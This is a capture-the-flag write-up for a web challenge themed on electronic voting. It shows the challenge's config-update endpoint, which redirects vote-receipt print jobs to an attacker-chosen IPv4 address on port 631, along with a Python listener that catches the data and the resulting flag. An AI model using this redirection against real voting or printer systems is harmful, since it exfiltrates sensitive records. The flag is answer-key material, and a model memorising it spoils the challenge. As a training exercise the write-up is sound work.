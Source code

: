 # Where'd my receipt go? - web

## Challenge

In order to create a paper trail to verify the legitimacy of the digital records, a receipt is printed for every vote made. The printer can only be configured by voting officials at the polling location. Is it possible to change the printer so the vote receipts don't go where they should?

## Solve

Viewing the source code, there are `/get-config` and `/update-config` API endpoints where the printer's current configuration can be viewed / modified:

**`/get-config`:**

getconf

The printer is currently configured to send receipts to `13.237.99.206`.

**`/update-config`:**
```py
@admin_bp.route("/update-config", methods=["POST"])
@require_polling_key
def update_polling_config():
    """
    Update polling location config. Mainly used for printer configuration.
    """
    try:
        data = request.get_json()
        if not data:
            return jsonify({"error": "No JSON data provided"}), 400

        location_data = request.polling_location
        polling_key = location_data["key"]
        config = data.get("config")

        if config is None:
            return jsonify({"error": "Missing required field: config"}), 400

        db = Database()
        exists, location_data = db.validate_polling_key(polling_key)

        if not exists:
            return jsonify({"error": "Invalid polling key"}), 404

        # CTF Note: The config will not actually be updated. A print job will be sent to your IP instead to simulate the attack scenario. When a citizen votes, a print job will be sent to the configured printer
        # success = db.update_polling_config(polling_key, config)
        # if success:
        #     return jsonify({
        #         "success": True,
        #         "message": "Configuration updated",
        #         "config": config
        #     })
        # else:
        #     return jsonify({"error": "Failed to update configuration"}), 500

        if "printer" in config:
            send_ipp_print_job(config["printer"], 1337)

        return jsonify({
                "success": True,
                "message": "Configuration updated",
                "config": config
            })

    except Exception as e:
        return jsonify({"error": f"Failed to update configuration: {str(e)}"}), 500
```

And `send_ipp_print_job()` constricts the address we can specify for the config to IPv4 (no domain names):

```py
def send_ipp_print_job(ip, citizen_id):
    if not is_ipv4(ip):
        raise Exception("IPv4 address required for printer configuration")

    pdf_path = current_app.config["PRINT_JOB_FLAG_PDF"]
    with open(pdf_path, "rb") as f:
        pdf_data = f.read()
        ....
        ....
```

It also tells us where the flag will be sent to (port `631`):

```
url = f"http://{ip}:631/printers/votes"
```

So, if we update the configuration to our IP address, the flag will be sent to us! Firstly we need to set up port forwarding so that when our router receives the flag from the remote server it knows to direct it towards our specific device:


- Log on to router at `192.168.0.1`
- Discover private address in VM bash terminal with `ip addr show` 
- Set up port forwarding to private IP, mapping ingress port `631` to local devices `631`

Then we set up a very basic web server to receive the response:

```py
from http.server import HTTPServer, BaseHTTPRequestHandler

class Handler(BaseHTTPRequestHandler):
    def do_GET(self):
        print(f"Path: {self.path}")
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"OK")

    def do_POST(self):
        length = int(self.headers.get('Content-Length', 0))
        body = self.rfile.read(length)
        print(f"Path: {self.path}")
        print(f"Body: {body.decode(errors='replace')}")
        self.send_response(200)
        self.end_headers()
        self.wfile.write(b"OK")

if __name__ == "__main__":
    server = HTTPServer(("", 631), Handler)
    print("Listening on port 631...")
    server.serve_forever()
```

```bash
python3 server.py
```

Then we send our `POST` request to `/update-config` specifying our public IP as the new config address to send receipts to. Our server catches the request and we get the flag:

`cysea{printer_goes_brrrrr_eaecba2ab2}`